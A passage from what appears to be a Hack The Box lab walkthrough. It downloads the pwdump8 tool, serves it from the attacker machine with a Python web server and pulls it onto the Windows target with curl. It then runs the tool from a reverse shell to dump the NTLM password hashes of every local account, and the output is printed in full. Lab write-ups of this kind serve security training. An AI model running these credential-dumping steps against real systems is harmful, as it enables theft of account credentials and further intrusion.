 Download https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip

```
$ wget https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
--2025-10-17 23:44:31--  https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
Resolving download.openwall.net (download.openwall.net)... 193.110.157.243
Connecting to download.openwall.net (download.openwall.net)|193.110.157.243|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 541455 (529K) [application/zip]
Saving to: ‘pwdump8-8.2.zip’

pwdump8-8.2.zip                100%[==================================================>] 528.76K   581KB/s    in 0.9s    

2025-10-17 23:44:33 (581 KB/s) - ‘pwdump8-8.2.zip’ saved [541455/541455]
```

Unzip:

```
$ unzip pwdump8-8.2.zip 
Archive:  pwdump8-8.2.zip
   creating: pwdump8/
  inflating: pwdump8/README.txt      
  inflating: pwdump8/pwdump8.exe
```

Go to directory and start python web-server:

```
cd pwdump8/
```
```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Use PowerShell to transfer PwDump8.2 to the target by using the previous RDP session:

```
PS C:\Users\htb-student> curl http://10.10.15.140:8000/pwdump8.exe -o "C:\Users\htb-student\Desktop\pwdump8.exe"
```

From the reverse shell  in the last question run PwDump8.exe as the super user:

```
C:\Windows\system32>C:\Users\htb-student\desktop\pwdump8.exe
C:\Users\htb-student\desktop\pwdump8.exe

PwDump v8.2 - dumps windows password hashes - by Fulvio Zanetti & Andrea Petralia @ http://www.blackMath.it

Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:7796EE39FD3A9C3A1844556115AE1A54
Guest:501:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
DefaultAccount:503:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
WDAGUtilityAccount:504:AAD3B435B51404EEAAD3B435B51404EE:AAD797E20BA0675BBCB3E3DF3319042C
mrb3n:1001:AAD3B435B51404EEAAD3B435B51404EE:7796EE39FD3A9C3A1844556115AE1A54
htb-student:1002:AAD3B435B51404EEAAD3B435B51404EE:3C0E5D303EC84884AD5C3B7876A06EA6
wksadmin:1003:AAD3B435B51404EEAAD3B435B51404EE:5835048CE94AD0564E29A924A03510EF
```
